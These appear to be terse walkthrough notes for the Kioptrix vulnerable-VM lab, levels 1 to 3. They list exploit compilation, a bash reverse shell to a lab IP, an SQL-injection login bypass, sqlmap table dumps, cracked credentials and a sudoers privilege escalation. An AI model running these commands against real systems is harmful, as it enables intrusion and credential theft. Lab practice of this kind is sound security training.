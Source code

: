 #### --Level 1-- 
enum4linux      192.168.139.128

##### searchsploit Samba 2.2

gcc /usr/share/exploitdb/exploits/multiple/remote/10.c -o exploitsamba

./exploitsamba -b 0 192.168.139.128

bash -i >& /dev/tcp/192.168.139.129/4444 0>&1

#### --Level 2--

SQL injection: admin'or '1'-'1

Welcome to the Basic Administrative Web Console

bash -i >& /dev/tcp/192.168.139.129/4444 0>&1

##### searchsploit Linux 2.6 Privilege Escalation CentOS

cp /usr/share/exploitdb/exploits/linux/local/9545.c 

localhost", "john", "hiroshima") or die(mysql_error());

mysql -u john -p
Enter password: hiroshima
show databases;

#### --Level 3--

nikto -host 192.168.139.131

##### LotusCMS-Exploit

https://github.com/Hood3dRob1n/LotusCMS-Exploit/blob/master/lotusRCE.sh

	$GLOBALS["gallarific_mysql_username"] = "root";
	$GLOBALS["gallarific_mysql_password"] = "fuckeyou";

	dreg 		0d3eccfb887aabd50f243b3f155c0f85 Mast3r
	loneferret 	5badcaf789d3d1d09794d8f021f40f0e starwars

root@kali:~# cd /usr/share/wordlists/
root@kali:/usr/share/wordlists# gunzip rockyou.txt.gz 

loneferret@Kioptrix3:~$ export TERM=xterm   
Update: /etc/sudoers   
Then sudo su  

##### OR:  
add hostname,   

http://kioptrix3.com/gallery/  

Search db:
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" --dbs
Check table:
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" -p id --tables -D gallery
Dump password:
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" -p id -T dev_accounts --dump
